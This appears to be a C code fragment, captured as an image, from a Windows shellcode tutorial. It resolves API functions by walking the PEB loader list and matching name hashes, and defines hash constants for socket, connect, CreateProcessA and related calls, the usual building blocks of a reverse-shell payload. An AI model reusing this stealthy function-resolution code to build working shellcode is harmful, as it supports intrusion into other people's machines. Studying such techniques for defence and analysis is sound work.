 ```
    return (LDR_DATA_TABLE_ENTRY *)((BYTE *)ptr - list_entry_offset);
}
 
// NOTE: This function doesn't work with forwarders. For instance, kernel32.ExitThread forwards to
//       ntdll.RtlExitUserThread. The solution is to follow the forwards manually.
PVOID getProcAddrByHash(DWORD hash) {
    PEB *peb = getPEB();
    LIST_ENTRY *first = peb->Ldr->InMemoryOrderModuleList.Flink;
    LIST_ENTRY *ptr = first;
    do {                            // for each module
        LDR_DATA_TABLE_ENTRY *dte = getDataTableEntry(ptr);
        ptr = ptr->Flink;
 
        BYTE *baseAddress = (BYTE *)dte->DllBase;
        if (!baseAddress)           // invalid module(???)
            continue;
        IMAGE_DOS_HEADER *dosHeader = (IMAGE_DOS_HEADER *)baseAddress;
        IMAGE_NT_HEADERS *ntHeaders = (IMAGE_NT_HEADERS *)(baseAddress + dosHeader->e_lfanew);
        DWORD iedRVA = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
        if (!iedRVA)                // Export Directory not present
            continue;
        IMAGE_EXPORT_DIRECTORY *ied = (IMAGE_EXPORT_DIRECTORY *)(baseAddress + iedRVA);
        char *moduleName = (char *)(baseAddress + ied->Name);
        DWORD moduleHash = getHash(moduleName);
 
        // The arrays pointed to by AddressOfNames and AddressOfNameOrdinals run in parallel, i.e. the i-th
        // element of both arrays refer to the same function. The first array specifies the name whereas
        // the second the ordinal. This ordinal can then be used as an index in the array pointed to by
        // AddressOfFunctions to find the entry point of the function.
        DWORD *nameRVAs = (DWORD *)(baseAddress + ied->AddressOfNames);
        for (DWORD i = 0; i < ied->NumberOfNames; ++i) {
            char *functionName = (char *)(baseAddress + nameRVAs[i]);
            if (hash == moduleHash + getHash(functionName)) {
                WORD ordinal = ((WORD *)(baseAddress + ied->AddressOfNameOrdinals))[i];
                DWORD functionRVA = ((DWORD *)(baseAddress + ied->AddressOfFunctions))[ordinal];
                return baseAddress + functionRVA;
            }
        }
    } while (ptr != first);
 
    return NULL;            // address not found
}
 
#define HASH_LoadLibraryA           0xf8b7108d
#define HASH_WSAStartup             0x2ddcd540
#define HASH_WSACleanup             0x0b9d13bc
#define HASH_WSASocketA             0x9fd4f16f
#define HASH_WSAConnect             0xa50da182
#define HASH_CreateProcessA         0x231cbe70
#define HASH_inet_ntoa              0x1b73fed1
#define HASH_inet_addr              0x011bfae2
#define HASH_getaddrinfo            0xdc2953c9
#define HASH_getnameinfo            0x5c1c856e
#define HASH_ExitThread             0x4b3153e0
#define HASH_WaitForSingleObject    0xca8e9498
 
#define DefineFuncPtr(name)     decltype(name) *My_##name = (decltype(name) *)getProcAddrByHash(HASH_##name)
 
```